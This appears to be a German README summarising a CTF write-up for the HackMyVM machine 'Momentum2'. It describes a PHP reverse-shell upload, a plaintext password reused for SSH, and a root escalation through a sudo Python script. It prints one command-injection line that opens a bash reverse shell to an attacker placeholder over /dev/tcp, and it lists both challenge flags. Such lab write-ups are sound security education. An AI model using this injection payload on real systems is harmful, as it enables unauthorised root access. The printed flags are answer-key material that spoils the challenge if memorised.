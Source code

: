 # Momentum2 - HackMyVM (Medium)

![Momentum2.png](Momentum2.png)

## Übersicht

*   **VM:** Momentum2
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Momentum2)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** [DATUM_HIER_EINFÜGEN]
*   **Original-Writeup:** https://alientec1908.github.io/Momentum2_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Momentum2" zu erlangen. Der initiale Zugriff erfolgte durch Ausnutzung einer unsicheren Dateiupload-Funktion in einer Webanwendung (`ajax.php`), die über `/dashboard.html` erreichbar war. Durch das Hochladen einer PHP-Reverse-Shell wurde eine Shell als `www-data` erlangt. In diesem Kontext wurde eine Datei `password-reminder.txt` mit dem Passwort `myvulnerableapp*` gefunden. Dieses Passwort ermöglichte den SSH-Login als Benutzer `athena`. Die finale Rechteausweitung zu Root gelang durch Ausnutzung einer unsicheren `sudo`-Regel, die `athena` erlaubte, ein Python-Skript (`/home/team-tasks/cookie-gen.py`) als Root auszuführen. Dieses Skript war anfällig für OS-Command-Injection, da es Benutzereingaben (den "seed") unsicher verarbeitete.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   Burp Suite (impliziert für Request-Interception)
*   `nc` (netcat)
*   `ssh`
*   `sudo`
*   Python3
*   Standard Linux-Befehle (`cat`, `bash`, `pty` (Python-Modul), `stty`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Momentum2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (impliziert):**
    *   Die IP-Adresse des Ziels (192.168.2.109 laut Burp-Request) und offene Ports (vermutlich 22/SSH und 80/HTTP) wurden im Vorfeld identifiziert (Schritte im Bericht nicht gezeigt).
    *   Ein POST-Request an `/ajax.php` wurde (wahrscheinlich über `/dashboard.html`) als Datei-Upload-Funktion identifiziert. Ein Cookie `admin=cookie` war vorhanden.

2.  **Initial Access (RCE via File Upload als `www-data`):**
    *   Ein HTTP-POST-Request an `/ajax.php` wurde mit Burp Suite abgefangen.
    *   Der Dateiname im `file`-Parameter wurde zu `rev.php` geändert und der Inhalt durch eine PHP-Reverse-Shell ersetzt.
    *   Die hochgeladene Datei wurde im Verzeichnis `/owls/` gespeichert.
    *   Durch Aufrufen von `http://192.168.2.109/owls/rev.php` wurde die Reverse Shell ausgelöst und eine Verbindung zu einem Netcat-Listener (Port 9001) als `www-data` hergestellt.
    *   Als `www-data` wurde die Datei `password-reminder.txt` gefunden, die das Passwort `myvulnerableapp*` enthielt.

3.  **Privilege Escalation (von `www-data` zu `athena` via SSH):**
    *   Mit dem gefundenen Passwort `myvulnerableapp*` wurde ein erfolgreicher SSH-Login als Benutzer `athena` durchgeführt.
    *   Die User-Flag (`4WpJT9qXoQwFGeoRoFBEJZiM2j2Ad33gWipzZkStMLHw`) wurde in `/home/athena/user.txt` gefunden.

4.  **Privilege Escalation (von `athena` zu `root` via `sudo` Command Injection):**
    *   `sudo -l` als `athena` zeigte (impliziert), dass das Python-Skript `/home/team-tasks/cookie-gen.py` als `root` ausgeführt werden durfte.
    *   Das Skript forderte zur Eingabe eines "seed"-Wertes auf.
    *   Ein OS-Command-Injection-Payload (z.B. `` `bash -c "bash -i >& /dev/tcp/ANGRIFFS_IP/9001 0>&1"` ``) wurde als Seed eingegeben.
    *   Da das Python-Skript den Seed unsicher verarbeitete (wahrscheinlich direkte Übergabe an eine Shell-Funktion), wurde der eingeschleuste Befehl als `root` ausgeführt.
    *   Eine Reverse Shell als `root` wurde auf einem Netcat-Listener (Port 9001) empfangen.
    *   Die Root-Flag (`4bRQL7jaiFqK45dVjC2XP4TzfKizgGHTMYJfSrPEkezG`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Unsichere Dateiupload-Funktion:** Eine Webanwendung (`ajax.php`) erlaubte das Hochladen von PHP-Dateien ohne ausreichende Validierung, was zu Remote Code Execution (RCE) führte.
*   **Information Disclosure (Passwort im Klartext):** Ein Passwort (`myvulnerableapp*`) wurde in einer Textdatei (`password-reminder.txt`) auf dem System gespeichert.
*   **Unsichere `sudo`-Regel:** Ein Benutzer (`athena`) durfte ein Python-Skript als `root` ausführen.
*   **OS Command Injection:** Das mit `sudo`-Rechten ausführbare Python-Skript (`cookie-gen.py`) war anfällig für Command Injection, da es Benutzereingaben (den "seed") unsicher in Shell-Befehlen verwendete.

## Flags

*   **User Flag (`/home/athena/user.txt`):** `4WpJT9qXoQwFGeoRoFBEJZiM2j2Ad33gWipzZkStMLHw`
*   **Root Flag (`/root/root.txt`):** `4bRQL7jaiFqK45dVjC2XP4TzfKizgGHTMYJfSrPEkezG`

## Tags

`HackMyVM`, `Momentum2`, `Medium`, `File Upload RCE`, `PHP Reverse Shell`, `Information Disclosure`, `sudo Exploit`, `Command Injection`, `Python`, `Linux`, `Web`, `Privilege Escalation`
